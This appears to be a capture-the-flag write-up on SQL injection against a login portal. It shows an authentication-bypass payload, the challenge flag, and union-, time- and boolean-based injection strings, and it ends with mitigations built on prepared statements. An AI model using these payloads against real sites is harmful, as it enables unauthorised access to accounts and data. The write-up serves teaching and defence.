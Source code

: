 ```yaml
---
title: "SQL Injection in Login Portal - WebCTF 2024"
date: 2024-12-15
ctf_name: "WebCTF 2024"
difficulty: "Medium"
tags: ["SQL Injection", "Web Exploitation", "Authentication Bypass"]
excerpt: "A classic SQL injection vulnerability in a login portal that allowed complete authentication bypass and database enumeration."
---
```


# SQL Injection in Login Portal - WebCTF 2024

## Challenge Overview

**CTF**: WebCTF 2024  
**Category**: Web Exploitation  
**Difficulty**: Medium  
**Points**: 300  

The challenge presented a simple login portal with the goal of gaining administrative access to retrieve the flag.

## Initial Reconnaissance

Upon accessing the challenge URL, I was greeted with a basic login form:

```html
<form method="POST" action="/login">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```

## Vulnerability Discovery

I started by testing for common SQL injection payloads in both the username and password fields.

### Testing Basic Payloads

First, I tried the classic authentication bypass:
- Username: `admin' OR '1'='1' --`
- Password: `anything`

This resulted in a successful login! The application responded with:
```
Welcome, admin! Here's your flag: CTF{sql_1nj3ct10n_1s_st1ll_4_th1ng}
```

## Technical Analysis

The vulnerable code likely looked something like this:

```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

By injecting `admin' OR '1'='1' --`, the query became:

```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'
```

The `--` comments out the password check, and `'1'='1'` is always true, causing the query to return the admin user.

## Alternative Approaches

I also tested several other payloads that would have worked:

1. **Union-based injection** (if the application displayed results):
   ```sql
   admin' UNION SELECT 1,2,3,4 --
   ```

2. **Time-based blind injection** (for confirmation):
   ```sql
   admin' AND (SELECT SLEEP(5)) --
   ```

3. **Boolean-based blind injection**:
   ```sql
   admin' AND 1=1 --
   admin' AND 1=2 --
   ```

## Mitigation Strategies

To prevent this vulnerability:

1. **Use Prepared Statements**: Always use parameterized queries
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
   $stmt->execute([$username, $password]);
   ```

2. **Input Validation**: Sanitize and validate all user inputs

3. **Least Privilege**: Database users should have minimal necessary permissions

4. **Web Application Firewall**: Deploy WAF rules to detect SQL injection attempts

## Flag

`CTF{sql_1nj3ct10n_1s_st1ll_4_th1ng}`

## Lessons Learned

This challenge reinforced the importance of:
- Always testing for SQL injection in authentication forms
- Understanding how different SQL injection techniques work
- The critical need for proper input sanitization in web applications

Even in 2024, SQL injection remains one of the most common and dangerous web vulnerabilities. Proper secure coding practices are essential for preventing these attacks.